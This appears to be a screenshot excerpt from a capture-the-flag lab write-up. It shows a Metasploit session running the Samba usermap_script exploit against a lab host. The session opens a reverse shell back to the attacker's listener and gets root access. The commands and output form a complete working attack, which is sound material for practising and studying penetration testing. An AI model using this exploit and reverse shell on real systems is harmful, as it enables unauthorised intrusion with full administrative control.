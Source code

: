```bash
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf5 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > set LHOST tun0
LHOST => 10.10.14.16
msf5 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.14.16:4444
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo oYJsXKQe85rE2iV4;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "oYJsXKQe85rE2iV4\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.16:4444 -> 10.10.10.3:54926) at 2020-06-16 14:45:10 +0200

id
uid=0(root) gid=0(root)
```
